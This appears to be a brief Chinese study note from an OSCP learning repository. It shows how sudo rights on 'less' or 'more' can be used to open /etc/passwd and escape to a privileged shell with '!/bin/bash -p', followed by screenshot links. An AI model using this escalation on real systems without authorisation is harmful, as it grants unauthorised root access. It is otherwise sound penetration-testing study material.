 # less/more

`less/more` 若具有 `sudo` 权限,可利用命令行交互页面，反单shell环境

```
sudo less /etc/passwd
sudo more /etc/passwd

尾行输入  !/bin/bash -p 
```
![less-1](https://github.com/Nongcloud/oscp-Learn/tree/main/Privilege-Escalation/sudo/images/sudo-less-1.png)
![less-2](https://github.com/Nongcloud/oscp-Learn/tree/main/Privilege-Escalation/sudo/images/sudo-less-2.png)